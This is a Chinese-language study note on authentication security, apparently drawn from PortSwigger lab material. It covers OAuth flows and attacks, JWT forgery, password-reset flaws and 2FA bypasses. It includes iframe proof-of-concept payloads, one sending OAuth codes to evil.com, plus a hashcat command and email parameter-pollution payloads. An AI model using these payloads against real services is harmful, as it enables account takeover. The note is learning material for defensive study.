

- [认证安全](#认证安全)
  - [OAuth 2.0](#oauth-20)
    - [OAuth 授权类型](#oauth-授权类型)
      - [Authorization code](#authorization-code)
        - [授权请求](#授权请求)
        - [用户授权](#用户授权)
        - [认证码授予](#认证码授予)
        - [访问令牌请求](#访问令牌请求)
        - [访问令牌授予](#访问令牌授予)
        - [接口调用](#接口调用)
        - [获取数据](#获取数据)
      - [隐式授权](#隐式授权)
        - [授权请求](#授权请求-1)
        - [访问令牌授予](#访问令牌授予-1)
        - [接口调用](#接口调用-1)
    - [OAuth Attack](#oauth-attack)
      - [隐式授权类型的实现不当](#隐式授权类型的实现不当)
      - [OAuth中的CSRF](#oauth中的csrf)
      - [通过redirect\_uri劫持账户](#通过redirect_uri劫持账户)
  - [JWT attacks](#jwt-attacks)
    - [JWT(Json Web Token)](#jwtjson-web-token)
      - [Header](#header)
      - [Payload](#payload)
      - [signature](#signature)
    - [Attack Type](#attack-type)
      - [不验证签名](#不验证签名)
      - [空算法签名](#空算法签名)
      - [弱密钥](#弱密钥)
      - [Header头注入](#header头注入)
        - [jwk 注入](#jwk-注入)
  - [重置密码](#重置密码)
    - [重置token从referrer泄露](#重置token从referrer泄露)
    - [Host注入](#host注入)
    - [参数污染](#参数污染)
    - [API校验不严格](#api校验不严格)
    - [重置密码Token可猜测](#重置密码token可猜测)
    - [前端校验](#前端校验)
    - [Token重复使用](#token重复使用)
    - [Token于账户未绑定](#token于账户未绑定)
  - [Bypass](#bypass)
    - [直接访问后续操作接口](#直接访问后续操作接口)
    - [重复令牌使用](#重复令牌使用)
    - [令牌未绑定账户](#令牌未绑定账户)
    - [令牌泄露](#令牌泄露)
    - [2FA验证不严谨](#2fa验证不严谨)
    - [无限生成验证码](#无限生成验证码)
    - [编码问题](#编码问题)
  - [参考](#参考)

# 认证安全
## OAuth 2.0
OAuth 是一种常用的授权框架，它使网站和 Web 应用程序能够请求对另一个应用程序上的用户帐户进行有限访问。OAuth允许用户授予此访问权限，而无需将其登录凭据暴露给请求应用程序。  

OAuth 2.0 最初是作为在应用程序之间共享对特定数据的访问权限的一种方式而开发的。它的工作原理是定义三个不同参与方（即客户端应用程序、资源所有者和 OAuth 服务提供程序）之间的一系列交互。 

客户端应用程序 - 要访问用户数据的网站或 Web 应用程序。
资源所有者 - 客户端应用程序要访问其数据的用户。
OAuth 服务提供商 - 控制用户数据和访问它的网站或应用程序。它们通过提供用于与授权服务器和资源服务器交互的 API 来支持 OAuth。
### OAuth 授权类型
#### Authorization code 
授权码类型的授权流程大概如下.  
##### 授权请求
当客户端程序需要从第三方服务访问用户数据时,会将请求重定向到第三方服务器上    
```http
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```
在请求的参数中常见以下几种参数.
* client_id
包含客户端应用程序的唯一标识符的必需参数。此值在客户端应用程序向 OAuth 服务注册时生成。

* redirect_uri
将授权代码发送到客户端应用程序时应将用户的浏览器重定向到的 URI。这也称为"回调URI"。许多 OAuth 攻击都是基于利用此参数验证中的缺陷。

* response_type
确定客户端应用程序期望的响应类型，从而确定它要启动的流程。对于授权代码授予类型，值应为code

* scope
用于指定客户端应用程序要访问的用户数据子集。请注意，这些作用域可能是 OAuth 提供程序设置的自定义作用域，也可能是由 OpenID 连接规范定义的标准化作用域。

* state
存储与客户端应用程序上的当前会话关联的唯一、不可猜测的值。OAuth 服务应在响应中返回此确切值以及授权代码。此参数用作客户端应用程序的 CSRF 令牌形式，方法是确保对其端点的请求是来自启动 OAuth流程的客户端.  

##### 用户授权
然后第三方服务会向用户确认是否授权给客户端程序.
当授权服务器收到初始请求时，它会将用户重定向到登录页面，在该页面中，系统将提示他们登录到 OAuth 提供程序的帐户.  
然后，将向他们显示客户端应用程序要访问的数据列表。这基于授权请求中定义的作用域。用户可以选择是否同意此访问权限.
##### 认证码授予
第三方服务确定授权后,将返回一个认证码给客户端程序.浏览器将被重定向到授权请求参数中指定的端点。生成的请求将包含授权代码作为查询参数。根据配置，它还可能发送与授权请求中值相同的参数
```http
GET /callback?code=a1b2c3d4e5f6g7h8&state=ae13d489bd00e3c24 HTTP/1.1
Host: client-app.com
```
##### 访问令牌请求
4. 客户端程序通过该授权码向第三方服务请求获取相应的访问Token.客户端应用程序收到授权代码后，需要将其交换为访问令牌。为此，它会将服务器到服务器的请求发送到 OAuth 服务的端点。从那时起，所有通信都在安全的反向通道中进行，因此，攻击者通常无法观察或控制。
```http
POST /token HTTP/1.1
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8
```
##### 访问令牌授予
如果一切正常，则服务器将通过向客户端应用程序授予具有所请求范围的访问令牌来响应。
```json
{
    "access_token": "z0y9x8w7v6u5",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid profile",
    …
}
```
##### 接口调用
现在客户端应用程序有了访问代码，它终于可以从资源服务器获取用户的数据了。为此，它会对 OAuth 服务的终结点进行 API 调用。访问令牌在标头中提交，以证明客户端应用程序有权访问此数据。
```http
GET /userinfo HTTP/1.1
Host: oauth-resource-server.com
Authorization: Bearer z0y9x8w7v6u5
```
##### 获取数据
资源服务器应验证令牌是否有效，以及它是否属于当前客户端应用程序。如果是这样，它将通过发送请求的资源（即基于访问令牌的范围的用户数据）来响应.
```json
{
    "username":"carlos",
    "email":"carlos@carlos-montoya.net",
    …
}
```
  
#### 隐式授权
隐式授权的区别在于跳过了利用授权码来获取访问Token的步骤,而是客户端直接获取访问Token,这样子节省了认证流程,但是后续的访问过程中则都会在用户浏览器中进行,导致安全性降低.  

##### 授权请求
区别在与`response_type`被设置为token.
```http
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```
##### 访问令牌授予
区别在于OAuth 服务会将用户的浏览器重定向到授权请求中指定的浏览器。但是，它不会发送包含授权代码的查询参数，而是将访问令牌和其他特定于令牌的数据作为 URL 片段发送。
```http
GET /callback?access_token=z0y9x8w7v6u5&token_type=Bearer&expires_in=5000&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: client-app.com
```
##### 接口调用
客户端应用程序成功从 URL 片段中提取访问令牌后，可以使用它来对 OAuth 服务的终结点进行 API 调用。与授权代码流不同，这也通过浏览器进行.
```http
GET /userinfo HTTP/1.1
Host: oauth-resource-server.com
Authorization: Bearer z0y9x8w7v6u5
```
### OAuth Attack
#### 隐式授权类型的实现不当
在隐式授权时客户端根据从认证服务器得到的Token来得到用户的相关信息后则需要为用户生成一个Cookie来保持用户的登陆状态,而生成Cookie时则会将得到的相关用户信息发送到服务端,服务端根据用户信息返回相应的Cookie,而这时一般都会携带用户信息如邮箱,用户名等还包括得到的Token,而如果没有校验Token与用户信息是否匹配的话,则可以直接修改用户信息为受害者的相关信息和不匹配的Token从而接管账户.
#### OAuth中的CSRF
在一些应用中提供将第三方账号绑定在自己账户上,从而可以直接使用第三方账号登陆,但如果在绑定时没有使用state参数或者其它CSRF保护,那么就可以将受害者的账户绑定在攻击者的第三方账户上,从而攻击者可以从第三方账户登录受害者账户.
1. 绑定第三方认证服务时,得到一个授权Code.
```http
GET /auth?client_id=rcyl1g4qylixovfrmyjhi&redirect_uri=https://0acb007c03168fcbc05002fd006d0025.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email HTTP/1.1
```
```http
HTTP/1.1 302 Found
Location: https://0acb007c03168fcbc05002fd006d0025.web-security-academy.net/oauth-login?code=QfonkH2GOMKNn2wkQsbQ_cx1iVo_wig5-kpm6LGKICE
```
2. 客户端使用该Code请求相关数据,绑定到该会话用户.
```http
GET /oauth-login?code=QfonkH2GOMKNn2wkQsbQ_cx1iVo_wig5-kpm6LGKICE HTTP/1.1
Host: 0acb007c03168fcbc05002fd006d0025.web-security-academy.net
Cookie: session=e9QiHH5eregTcbaUK3VglcWI1eUcHNHX
```
但过程中未校验该code与当前会话Cookie用户是否匹配,则可以将Code替换为自己的第三方Code,将该url发送给受害者,利用CSRF受害者加载后,则我们自己的第三方账户与受害者账户成功绑定,则可以通过自己的第三方账户登录受害者账户.  
poc:
```html
<iframe src="https://client-server.com/oauth-linking?code=STOLEN-CODE"></iframe>
```
防御方案:  
在通过授权码登录时还应检查参数与第一步请求授权码的state参数是否一致或者添加CSRF Token参数.
#### 通过redirect_uri劫持账户
当用户已经登录过第三方服务时,客户端会直接自动利用该合法会话向第三方服务请求授权码,如果在这个过程中授权码回调的url可以会被任意修改的话,那么则可能会导致授权码泄露,从而导致攻击者直接凭借泄露的授权码登录受害者账户.
1. 客户端向第三方服务请求授权码,因为用户已经登录到了第三方服务,所有该请求会携带第三方服务的合法cookie,用户则不用再次手动登录第三方服务.
```http
GET /auth?client_id=l54nov94569dplnp2qolo&redirect_uri=https://evil.com/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a100017030b72c7c04970ea02d7001b.web-security-academy.net
Cookie: _session=fVwdTrTg4ek6J6uKrL6G0; _session.legacy=fVwdTrTg4ek6J6uKrL6G0
```
如果其中的redirect_uri回调地址没有任何限制或者那么授权码将会泄露到evil.com上.

poc:
```html
<iframe src="https://oauth-server.net/auth?client_id=CLIENT-ID&redirect_uri=https://evil.com&response_type=code&scope=openid%20profile%20email"></iframe>
```
用户访问网页加载后其授权码将会自动发送到https://evil.com上.  

2. 攻击者得到授权码后直接调用对应的API登录受害者账户.  
防御方案:  
同样的在通过授权码登录时还应检查参数与第一步请求授权码的state参数是否一致或者添加CSRF Token参数,这样即使得到了授权码也会因为没有state参数登录失败.
## JWT attacks
### JWT(Json Web Token)
组成部分:
1. Header
2. Payload
3. signature  
   
由`.`进行分割,如  
  
#### Header
其中Header和Payload部分是由base64+url编码的Json数据.  
Header主要包括该JWT的一些元数据,一般使用较多的alg指定使用的算法,typ指定类型..  
```json
{
    "alg": "HS256",
    "typ": "JWT"
}
```
#### Payload
Payload部分是要传递到后端的具体数据,如用户信息等等,过期时间等.
```json
{
    "iss": "portswigger",
    "exp": 1648037164,
    "name": "Carlos Montoya",
    "sub": "carlos",
    "role": "blog_author",
    "email": "carlos@carlos-montoya.net",
    "iat": 1516239022
}
```
#### signature
signature部分是对Header和Payload部分使用Header中指定的算法进行Hash计算得到,后端根据这个签名来判断信息是否遭到篡改.  
### Attack Type
#### 不验证签名
后端其实并没有验证签名,只是将jwt令牌解码,这种情况可以直接修改payload中的数据.
#### 空算法签名
在Header中签名算法由alg进行指定,后端验证时直接根据接受的JWT中指定的alg算法进行验证,如果直接在jwt中将alg指定为空,则会导致直接验证通过.  
```json
{
    "alg": "none",
    "typ": "JWT"
}
```
指定alg为none后,还要删除jwt中的signature部分(但保留最后一个`.`分隔符).
#### 弱密钥
用于算法加密的密钥强度较弱可能被hashcat暴力破解,然后伪造任意合法签名.  
` hashcat -a 0 -m 16500 <jwt> <wordlist>`
#### Header头注入
在Header部分只有alg强制要求,还有一些可选参数可以指定。
* jwk(JSON Web Key) - 提供一个代表密钥的嵌入式JSON对象,服务器可以用它将其公钥直接嵌入JWK格式的令牌本身。
* jku(JSON Web Key Set URL) - 提供一个URL，服务器可以从中获取包含正确密钥的密钥集。
* kid(Key ID ) - 提供一个ID，在有多个密钥可供选择的情况下，服务器可以用它来识别正确的钥匙。根据密钥的格式，这可能有一个匹配的kid参数。
##### jwk 注入
```
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```
当服务器没有对jwk中的公钥作限制时
## 重置密码
### 重置token从referrer泄露
在密码重置页面中如果点击其中的第三方资源,那么在url中的重置token可能会被一起添加在referrer头中,导致第三方可以获取密码重置token.
### Host注入
密码重置链接是根据Host的地址生成的,如果修改Host为自己的服务器,重置链接的URL将会是自己的服务器,当用户点击时就会携带Token访问自己的服务器.
### 参数污染
密码重置时在受害者邮箱后注入自己邮箱,查看是否向自己邮箱也发送了链接.   
```
email=victim@email.com&email=attacker@email.com
email=victim@email.com%20email=attacker@email.com
email=victim@email.com|email=attacker@email.com
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
email="victim@mail.tld",email="attacker@mail.tld"
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
### API校验不严格
重置密码的接口从用户输入接受要修改的账户,并且没有将cookie和账户作绑定,直接修改账户为受害者账户即可更改密码.
### 重置密码Token可猜测
可能基于以下变量生成.
```
Timestamp
the UserID
email of User
Firstname and Lastname
Date of Birth
Cryptography
```
使用( Burp Sequencer)  
https://github.com/intruder-io/guidtool
### 前端校验
进入修改密码的步骤是在前端验证,修改响应为正常响应代码即可直接进入修改密码的步骤.
### Token重复使用
密码重置链接是否可以被重复使用.
### Token于账户未绑定
使用自己的Token重置目标的账户.
## Bypass
### 直接访问后续操作接口 
两个操作之间没有验证连续性,可以跳过当前验证直接访问下一个请求的接口.
### 重复令牌使用
没有及时销毁令牌,导致可以使用用过的令牌进行验证.
### 令牌未绑定账户
从A账户的获取的令牌可以用于验证B账户.
### 令牌泄露
响应中或者公开资源泄露令牌.
### 2FA验证不严谨
使用同一个Session同时使用自己的账户和受害者账户进行2FA认证流程,使用自己账户验证通过后不进入下一步,而是使用受害者的账户进行下一步,如果2FA验证成功后在返回Session中设置的验证结果没有和账户进行绑定,那么就可以使用受害者账户绕过2FA认证进入下一步.
### 无限生成验证码
验证码校验存在速率限制,如果验证码不复杂,可以通过使用固定的验证码进行验证,通过不断生成验证码直到生成的验证码匹配.
### 编码问题
注册账户时使用unicode编码的字母,这可能会绕过账户是否存在的验证,但在插入到数据库时覆盖原有账户.  
```
1. victim account victim@gmail.com
2. create an account using Unicode
example: vićtim@gmail.com
```
## 参考
https://portswigger.net/web-security/oauth